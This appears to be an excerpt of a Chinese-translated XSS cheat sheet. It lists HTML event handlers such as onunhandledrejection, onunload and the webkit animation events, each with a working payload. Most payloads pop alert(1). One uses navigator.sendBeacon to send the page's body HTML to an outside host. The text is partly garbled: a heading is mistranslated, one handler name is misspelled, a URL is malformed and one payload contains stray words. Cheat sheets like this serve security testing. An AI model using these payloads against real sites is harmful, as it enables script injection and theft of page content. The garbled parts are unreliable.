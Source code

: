 承诺未兑现时触发

```
<body onunhandledrejection=alert(1)><script>fetch('//xyz')</script>
```

#### **他的上传**

当页面卸载时触发

```
<body onunload=navigator.sendBeacon('//https://ssl.portswigger-labs.net/',document.body.innerHTML)>
```

#### **onwebkitanimationend**

CSS 动画结束时触发

```
<style>@keyframes x{}</style><xss style="animation-name:x" onwebkitanimationend="alert(1)"></xss>
```

#### **onwebkitanimationiteration**

当 CSS 动画重复时被激发

```
<style>@keyframes slidein {}</style><xss style="animation-duration:1s;animation-name:slidein;animation-iteration-count:2" onwebkitanimationiteration="alert(1)"></xss>
```

#### **onwebkitanimationstart**

当 CSS 动画开始时触发

```
<style>@keyframes x{}</style><xss style="animation-name:x" onwebkitanimationstart="alert(1)"></xss>
```

#### **onwebkittransitionend**

CSS 转换结束时触发

```
<style>:target {color:red;}</style><xss id=x style="transition:color element loses focus1s" onwebkittransitionend=alert(1)></xss>
```

#### **onafterprint**

在页面打印后激发

```
<body onafterprint=alert(1)>
```

#### **onauxlick**

右键单击或使用鼠标中键时激发

```
<input onauxclick=alert(1)>
```
